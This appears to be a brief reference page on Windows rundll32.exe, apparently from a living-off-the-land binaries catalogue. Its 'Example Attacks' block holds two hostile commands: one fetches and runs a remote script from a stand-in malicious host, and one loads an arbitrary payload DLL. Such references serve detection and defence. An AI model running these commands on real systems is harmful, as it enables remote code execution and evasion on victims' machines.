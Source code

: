 # rundll32.exe
## What is it?
*rundll32.exe is used to execute functions in DLL files.*

## Example Attacks
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication " "http://malicious[.]site/payload.js"

rundll32.exe shell32.dll,Control_RunDLL payload.dll
```
